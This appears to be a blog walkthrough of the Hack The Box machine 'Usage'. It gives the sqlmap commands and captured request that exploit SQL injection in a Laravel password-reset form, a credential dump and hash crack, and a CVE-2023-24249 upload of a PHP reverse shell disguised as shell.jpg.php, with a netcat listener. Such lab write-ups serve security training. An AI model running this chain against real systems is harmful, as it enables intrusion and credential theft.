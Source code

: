 ```yaml
---
layout: post
section-type: post
has-comments: true
title: Hack The Box - Usage
category: tech
tags: ["tutorial"]
---
```


### Reconnaissance and Initial Steps

#### Nmap Results

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/262a3e3d-d622-4ddb-943c-a25262dd15c4)


I add usage to `/etc/hosts` with the corresponding ip address given. Then navigate to `http://usage.htb`

```
echo "10.10.11.18   usage.htb" | sudo tee -a /etc/hosts
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/e3dd36f2-b62a-4418-8dbb-aa516a39f3ec)

#### Subdomain Enumaration

```
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.usage.htb" -u http://usage.htb -fs 154
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/a9118ccd-eaae-48f4-bc67-bffb955466e4)

and I found `admin.usage.htb` and added to `/etc/hosts`

```
echo "10.10.11.18    admin.usage.htb" | sudo tee -a /etc/hosts
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/e014a343-d0b3-4af0-9a31-e0084c89cbc0)


#### Whatweb

```
whatweb 10.10.11.18
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/a5c0fe04-dd17-4b10-8241-d93da4561a7b)

I Identified that this website is built using the Laravel framework

https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/laravel



### User Flag

After checking out the Password Reset Option and finding it interesting, I fired up Burp Suite. I captured the POST request, as shown below:

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/d1255c2a-589d-41ee-b75e-c9a714d9a87d)

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/58a49c54-5fde-4fd4-8d09-89e53c03f078)

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/967606a2-a82a-4ead-beb1-5d8cedd71825)


I copied the POST request to a text file, which I named `request.txt`

```
POST /forget-password HTTP/1.1
Host: usage.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 77
Origin: http://usage.htb
Connection: close
Referer: http://usage.htb/forget-password
Cookie: XSRF-TOKEN=eyJpdiI6IkVMOEV1aUo4VjFHSEw3VEIzeERyRVE9PSIsInZhbHVlIjoiR3R4aVJxRWxMakUvNE1oVkQ0SS9DR3Q1T3FBTnZvS2JTY3R3dlFnZEJ2Z2NhaUp2V0FKTGtJSVdUS2VnK3crSlNrUEFnS2NQMXBBQllrWWJtYmdMR0w1SzdxR2dGY3lsT1BHeVRGNXp3bEttWUNRNmRBSkk4RXkxS0xYK1pOb0wiLCJtYWMiOiJlMzkyYTY1YzJjOGQ2MDdiNWI3MTRiZGIxYzk2N2FlMzNiYzFlNjZiZjk4NWE4MDkyYWE3NjgxMGI5NTMxMjgyIiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6IjUxUE5tOW5TYlAxd0FFQ3p2YjhEaXc9PSIsInZhbHVlIjoiTGl0Y3hFZU81Y2F2anNXcXNXa3pVd0RwNHcvYjMzbHBSWTlISW80VjZBSzVjTTZDd3FKVkhiNnhPdDVDejNYK2RVNDcvSERMOGc2dzNFMHpycTBSeGZSemk2TEZyZk5QWDE2N05YM21GcWFDcHJRSjVGSTRFajVhSTBOR0IvOTEiLCJtYWMiOiJiYzYwMDUyMGQzMTk2ODM2ZDkxMTI1NjhmYWFmYmU3YjgxZjMzMjUzZGExYWE1YTQ0MTA1NGI4NjMwYmFhMDU4IiwidGFnIjoiIn0%3D
Upgrade-Insecure-Requests: 1

_token=jElJgEoOoONVCfBoDfa67TPzd6VxBk4o43ObgKlY&email=1*
```

Now, let's fire up SQLMap.

```
sqlmap -r request.txt --level 5 --risk 3 --batch
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/6b6b64cc-60a2-4095-a6e5-f0497d7f1e39)


```
sqlmap -r request.txt --level 5 --risk 3 --batch --dbs
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/006a9509-9d5c-4321-8e38-d29e23b558c2)

```
sqlmap -r request.txt --level 5 --risk 3 --batch -D usage_blog --tables
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/5d27c0aa-7d0d-46e0-802b-bf7ef31ba846)

```
sqlmap -r request.txt --level 5 --risk 3 --batch -D usage_blog -T admin_users --columns
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/3b7f3015-a002-4657-9b82-3399ca75d385)

```
sqlmap -r request.txt --level 5 --risk 3 --batch -D usage_blog -T admin_users -C username,password --dump
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/b787f27b-9d1d-4521-9a9b-31646c38cc2a)

So I copied the hash and saved it to `pass.txt`

```
echo "$2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2" > pass.txt
```

let's use john to crack it.

```
john --wordlist=/usr/share/wordlists/rockyou.txt pass.txt
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/32720f6c-00e4-4828-9027-4fd3a30975fe)

and I used these credntials to login to admin portal (`admin : whatever1`)

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/2de43c41-5f44-4f0d-a629-9f383f6c0f2a)

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/92ee756b-5372-43ea-9fd9-a6fd3a365377)

Search for the latest vulnerabilities and find a warning about laravel-admin having an arbitrary file upload vulnerability (CVE-2023-24249). The affected version number is 1.8.19, and the system version number is 1.8.18. It should be affected,  and finally found this article:

https://flyd.uk/post/cve-2023-24249/

Let's prepare the webshell. Here we use kali's php shell file locate at : `/usr/share/webshells/php/php-reverse-shell.php`, modified the IP (tun0) and port (4444) information, and then use 010editor to create a picture horse.

```
cp /usr/share/webshells/php/php-reverse-shell.php .
```

```
nano php-reverse-shell.php
```
![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/734ecf2c-79e8-4dee-bb66-9a2f946162ac)

Now let's download the 010editor : https://www.sweetscape.com/download/010editor/

Let's extract and run the 010editor

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/434e87e4-fcfc-40a7-8a64-c32d8d051d7a)

then i went to `http://admin.usage.htb` and move to `administrator settings` and i have downlod the admin image like below:

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/7d869bdc-9536-44a5-961b-98f9bea085b3)

Then I open that image from 010editor ( Open File ---> select the image file)

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/83b1f9f2-ac2f-48bf-b489-3ab63000899a)

then In that image, I moved to the end of the header and paste the selected php-reverse-shell code:

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/467e8d46-bc20-4c7e-960c-86d23805657e)

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/37963562-1712-46d6-b2f0-ea63fdf1043e)

then saved the file as `shell.jpg`

#### Initial Foothold

let's create a netcat listner:

```
nc -nlvp 4444
```


Then I fired up the burp suite and intersept the process of uploading `shell.jpg`.

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/21fba85e-5d9e-4ac3-99fb-5f3634c0f5cd)

so now we can change the filename to `shell.jpg.php` and forward the requests:

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/c097dc56-59e4-418a-8754-6c82470cc72c)




